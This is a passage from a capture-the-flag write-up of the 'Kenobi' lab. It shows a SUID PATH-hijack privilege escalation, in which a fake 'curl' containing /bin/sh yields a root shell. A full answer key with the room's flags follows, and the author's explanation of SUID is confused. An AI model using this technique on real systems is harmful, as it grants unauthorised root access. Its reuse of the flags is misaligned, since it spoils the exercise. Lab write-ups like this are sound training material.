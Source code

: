 AHA! Ok, so if we change one of the commands to something where we can run root or something like that, then we'll be golden.

So this is where I kinda got lost, mostly in how SUID works. 

It just runs things as available for everyone, including root, period. 

Welp, so that means it kinda can run as if we're saying `sudo` then whatever on a normal secure machine.

On mine, when I run `sudo sh` then `id`, I get back that I'm root.

I see! Well, in that case, let's do it!

---

```
kenobi@kenobi:~$ cd bin
kenobi@kenobi:~/bin$ echo /bin/sh > curl
kenobi@kenobi:~/bin$ chmod 777 curl
kenobi@kenobi:~/bin$ cd ..
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

---

Welp, there it is lol.

Let's find the flag!

---

```
# cd /root
# ls
root.txt
# cat root.txt  
177b3cd8562289f37382721c28381f02
```

<small><b><em>Q11 ANSWERED</em></b></small>

---

And we found it! Room done!

## Questions

1. How many open ports? [_7_]
2. How many shares on SMB? [_3_]
3. What file do you see? [`log.txt`]
4. What port is FTP running on? [`21`]
5. What NFS mount do we see? [`/var`]
6. What version of ProFTPD is running? [`1.3.5`]
7. How many exploits are there for the ProFTPd running? [_3_]
   - Don't count the two `Remote Command Execution`'s as separate
8. What is Kenobi's user flag (/home/kenobi/user.txt)? [`d0b0f3f53b6caa532a83915e19224899`]
9. What file looks particularly out of the ordinary? [`/usr/bin/menu`]
10. Run the binary, how many options appear? [_3_]
11. What's the root flag? [`177b3cd8562289f37382721c28381f02`]
